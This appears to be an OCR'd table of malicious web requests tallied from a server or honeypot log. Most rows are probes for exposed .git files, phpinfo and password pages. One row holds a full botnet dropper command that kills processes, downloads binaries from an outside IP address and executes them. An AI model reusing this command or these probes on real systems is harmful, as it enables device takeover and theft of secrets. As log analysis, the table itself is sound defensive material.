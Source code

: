 |   3 |                    28 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                     |
|   4 |                    22 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|   5 |                    17 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                                                     |
|   6 |                    11 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                                  |
|   7 |                     9 | GET /_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|   8 |                     7 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|   9 |                     6 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                                          |
|  10 |                     6 | GET /.git/index HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  11 |                     5 | GET /password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |
|  12 |                     5 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
|  13 |                     5 | GET /1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                |
|  14 |                     5 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                               |
|  15 |                     5 | GET /upl.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |